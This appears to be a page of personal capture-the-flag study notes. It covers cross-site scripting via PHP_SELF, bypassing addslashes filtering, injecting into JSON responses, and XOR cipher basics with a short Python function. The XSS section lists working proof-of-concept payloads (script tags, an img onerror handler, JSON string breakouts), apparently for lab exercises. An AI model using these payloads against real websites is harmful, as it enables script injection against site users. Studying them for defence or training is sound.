 ```https://d00mfist1.gitbooks.io/ctf/content/basics_of_linux.html


        Reference
            https://www.joe0.com/2016/12/08/cross-site-scripting-xss-and-exploiting-_serverphp_self/

         $_SERVER[‘PHP_SELF’]) can be leverage to achieve xss in a website

        Consider <form action="test.php" method="post">
        Payload : <form action="  test.php/"><script>alert(1)</script>    " method="post">
        Payload : <form action="  test.php" onload='javascript:alert(1)' onmouseover="javascript:alert(1)   " method="post">


        Medium
            Uses addslashes to fight xss but <script>alert(document.domain)</script>,<img/src=dd onerror=javascript:alert(document.domain)></img> still works
            Bypassing addslashes
                The data just has to include a " and the attribute is broken out of.(Works only when the input is added to an attribute)

        JSON EASY
            var JSONResponseString = '{"movies":[{"response":"  CSS"}]}';alert(document.domain);var trash='{[{"  ??? Sorry, we don&#039;t have that movie :("}]}';

        JSON AJAX
            {"movies":[{"response":"	css"}]};alert(1);let trash={[{" ??? Sorry, we don't have that movie :("}]}

            {"movies":[{"response":"	css"}]};<script>alert(1)</script>;<!--{[{" ??? Sorry, we don't have that movie :("}]}

    echo json_encode($movies); 
	

   
    

                        ----------------------
                              CRYPTOGRAPHY
                        ---------------------

Algorithm (where i is the index)
output_str += chr(ord(inp_string[i]) ^ ord(key[i%len(key)]))
output_str +=currentletterofstring ^ 



# string ^ key =ciphertext
# string ^ ciphertext =key(repeated)
# ciphertext ^ key = string 


def encrypt(string,key):
    result=''
    for index in range(len(string)):
        result+=chr(ord(string[index]) ^ ord(key[index%len(key)]))
    print(result)


https://en.wikipedia.org/wiki/XOR_cipher
XOR(smilar to add in binary)
    0 AND 0 = 0
```